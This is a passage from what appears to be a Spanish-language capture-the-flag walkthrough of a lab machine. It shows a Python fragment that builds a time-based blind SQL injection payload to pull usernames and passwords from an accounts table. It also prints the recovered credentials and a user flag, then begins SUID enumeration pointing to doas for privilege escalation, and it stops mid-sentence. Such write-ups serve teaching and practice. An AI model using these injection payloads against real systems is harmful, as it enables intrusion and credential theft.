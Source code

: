 ```python
            let = letter
            payload = f"or if(ord(substr((select group_concat(username,0x3a,password) from accounts),{position},1))=ord(\'{letter}\'),sleep(4),1)"
            request = "{\"id\":\"1 "+payload+"\"}"
            p1.status(request)
            response = peticion(request)
            if response:
                break
```

Ejecutamos el script:

```bash
python3 tables.py 
[ ] SQLI: {"id":"1 or if(substr((select group_concat(username,0x3a,password) from accounts),35,1)='c',sleep(2),1)"}
[\] Info: : player:PlayerOftheMatch2022
```

Y encontraremos las credenciales ***player:PlayerOftheMatch2022***

#### user.txt

Nos podemos conectar a través de ***SSH***, o bien a través de la consola ganada anteriormente como *www-data*. En el ***homedir*** de *player* encontraremos la primera *flag*:

```bash
player@soccer:~$ cat user.txt 
acf4b8ef3efeabcc450fa51ae116bdcf
```
##  Consiguiendo shell como root

### Reconocimiento del sistema como player

Empezaremos enumerando todos aquellos archivos que tengan permiso ***suid***:

```bash
player@soccer:/tmp$ find / -perm -4000 2>/dev/null -ls
    70968     44 -rwsr-xr-x   1 root     root        42224 Nov 17 09:09 /usr/local/bin/doas
     1753     40 -rwsr-xr-x   1 root     root          39144 Feb  7  2022 /usr/bin/umount
     2093     40 -rwsr-xr-x   1 root     root          39144 Mar  7  2020 /usr/bin/fusermount
     1752     56 -rwsr-xr-x   1 root     root          55528 Feb  7  2022 /usr/bin/mount
     1647     68 -rwsr-xr-x   1 root     root          67816 Feb  7  2022 /usr/bin/su
     ...
```

Un fichero inusual es con permisos *suid* es */usr/local/bin/**doas***. 

*doas* es un programa de línea de comandos que permite a los usuarios ejecutar comandos con **privilegios de superusuario** en un sistema operativo. Es similar a *sudo*, pero tiene una sintaxis ligeramente diferente y se enfoca en ser una herramienta más ligera y segura. Ahora bien, cualquier tipo de comando que intentemos ejecutar, del tipo ***doas \<comando\>***, no nos dejará.

También podemos enumerar archivos cuyo propietario o grupo seamos nosotros. Para enumerar archivos cuyo **grupo** sea ***player*** podemos ejecutar:
